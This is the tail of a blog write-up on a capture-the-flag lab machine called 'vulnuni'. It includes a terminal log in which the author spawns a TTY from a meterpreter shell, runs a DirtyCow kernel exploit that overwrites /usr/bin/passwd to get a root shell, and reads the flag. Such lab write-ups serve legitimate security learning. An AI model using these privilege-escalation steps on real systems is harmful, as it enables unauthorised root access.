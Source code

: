 With the exploit on the target machine, I made it executable with chmod and executed it. The dirty cow exploit upgraded my limited www-data shell to a full root shell. I quickly read the flag in the root directory with cat.

```text

root@kali$ msf >
meterpreter > shell
Process 2241 created.
Channel 0 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzippingroot@kali$ ./cowroot
./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 42824
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don’t forget to restore /tmp/bak
thread stopped
thread stopped
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# cat /root/flag.txt
cat /root/flag.txt
ff19f8d0692fe20f8af33a3bfa6635dd
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# whoami
whoami
root
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# id
id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping#
```

![](https://i0.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-12-at-9.02.14-PM.png?resize=650%2C493&ssl=1)

Overall this was a good CTF challenge and taught me a little more about linux kernel privilege escalation exploits. Not all dirty cow exploits are the same, and many can cause virtual linux machines to crash. Additionally, the authors personal infosec blog is a good read and can be found at [https://emaragkos.gr](https://emaragkos.gr/).


